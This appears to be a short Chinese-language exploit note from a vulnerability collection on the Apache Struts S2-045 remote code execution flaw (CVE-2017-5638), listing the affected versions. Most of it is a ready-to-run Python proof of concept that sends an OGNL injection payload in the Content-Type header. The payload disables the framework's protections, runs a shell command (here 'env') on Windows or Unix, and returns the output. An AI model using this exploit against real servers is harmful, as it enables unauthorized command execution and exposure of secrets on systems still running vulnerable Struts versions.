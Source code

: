 # S2-045 远程代码执行漏洞（CVE-2017-5638）
影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

简单的说就是在处理Content-Type的post请求的时候使用了ognl表达式注入。注意Content-Type:必须含有multipart/form-data，
## poc
```python
import requests

url = ""
headers={
    'Content-Type':'''"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}".multipart/form-data'''
}
re = requests.post(url,headers=headers)
print(re.text)
```
